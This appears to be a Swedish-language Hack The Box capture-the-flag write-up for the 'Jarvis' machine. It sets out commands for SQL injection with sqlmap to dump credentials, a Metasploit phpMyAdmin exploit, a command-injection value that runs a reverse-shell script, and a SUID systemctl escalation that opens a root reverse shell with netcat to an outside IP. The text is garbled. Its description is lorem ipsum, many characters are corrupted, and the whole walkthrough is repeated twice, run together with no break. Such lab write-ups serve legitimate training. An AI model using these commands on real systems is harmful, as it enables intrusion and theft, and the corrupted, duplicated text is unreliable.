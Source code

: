 ```yaml
---
title: Jarvis - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-06-25
image: images/jarvis_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```





### USER ###

1. Basic enum (nmap -Pn -n -sC -sV -O 10.10.10.143 & dirb http://10.10.10.143)

2. Klicka runt p� sidan och se att /room.php?cod=2 kan uts�ttas f�r sql-injection genom att s�tta ' i slutet av uri

3. Execute SQL-injection med sqlmap f�r att f� fram user/pw:
sqlmap -u http://10.10.10.143/room.php?cod=2 --current-user --current-db --passwords --tamper=space2comment --random-agent --users --method=GET 

4. Logga in med crackade creds (DB*****:im******) p� http://10.10.10.143/phpmyadmin/

5. Metasploit har en lfi-rce f�r phpmyadmin (multi/http/phpmyadmin_lfi_rce) k�r den f�r meterpreter-shell

6. lse.sh visar att simpler.py k�rs som sudo

7. pspy64 visar att simpler.py k�rs
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

8. Ladda upp bash reverse shell och k�r scriptet sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
   Skriv in: "$(bash /tmp/reverse.sh)" utan "" f�r att f� user shell

9. cat /home/pepper/user.txt

### ROOT ###

1. Fixa SSH-access med pub-key
   local host: ssh-keygen
   remote host: mkdir ~/.ssh/
   remote host: vi ~/.ssh/authorized_keys  klistra in inneh�ll fr�n pub-key (/root/.ssh/id_rsa.pub)
   remote host: s�tt permission 700 p� .ssh och 644 p� authorized_keys samt att filen �gs av pepper
   local host: ssh pepper@10.10.10.143

2. lse -l1 visar att /bin/systemctl har suid
   Exploit info om bins med SUID: https://gtfobins.github.io/gtfobins/

3. Skapa en egen service via systemctl som skapar ett reverse root shell (gl�m inte starta nc innan):
    pepper@jarvis:/bin$ TF=$(mktemp).service
    pepper@jarvis:/bin$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.5 4488"
    > [Install]
    > WantedBy=multi-user.target' > $TF
    pepper@jarvis:/bin$ ./systemctl link $TF
    pepper@jarvis:/bin$ ./systemctl enable --now $TF

4. cat /root/root.txt### USER ###

1. Basic enum (nmap -Pn -n -sC -sV -O 10.10.10.143 & dirb http://10.10.10.143)

2. Klicka runt p� sidan och se att /room.php?cod=2 kan uts�ttas f�r sql-injection genom att s�tta ' i slutet av uri

3. Execute SQL-injection med sqlmap f�r att f� fram user/pw:
sqlmap -u http://10.10.10.143/room.php?cod=2 --current-user --current-db --passwords --tamper=space2comment --random-agent --users --method=GET 

4. Logga in med crackade creds (DB*****:im******) p� http://10.10.10.143/phpmyadmin/

5. Metasploit har en lfi-rce f�r phpmyadmin (multi/http/phpmyadmin_lfi_rce) k�r den f�r meterpreter-shell

6. lse.sh visar att simpler.py k�rs som sudo

7. pspy64 visar att simpler.py k�rs
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

8. Ladda upp bash reverse shell och k�r scriptet sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
   Skriv in: "$(bash /tmp/reverse.sh)" utan "" f�r att f� user shell

9. cat /home/pepper/user.txt

### ROOT ###

1. Fixa SSH-access med pub-key
   local host: ssh-keygen
   remote host: mkdir ~/.ssh/
   remote host: vi ~/.ssh/authorized_keys  klistra in inneh�ll fr�n pub-key (/root/.ssh/id_rsa.pub)
   remote host: s�tt permission 700 p� .ssh och 644 p� authorized_keys samt att filen �gs av pepper
   local host: ssh pepper@10.10.10.143

2. lse -l1 visar att /bin/systemctl har suid
   Exploit info om bins med SUID: https://gtfobins.github.io/gtfobins/

3. Skapa en egen service via systemctl som skapar ett reverse root shell (gl�m inte starta nc innan):
    pepper@jarvis:/bin$ TF=$(mktemp).service
    pepper@jarvis:/bin$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.5 4488"
    > [Install]
    > WantedBy=multi-user.target' > $TF
    pepper@jarvis:/bin$ ./systemctl link $TF
    pepper@jarvis:/bin$ ./systemctl enable --now $TF

4. cat /root/root.txt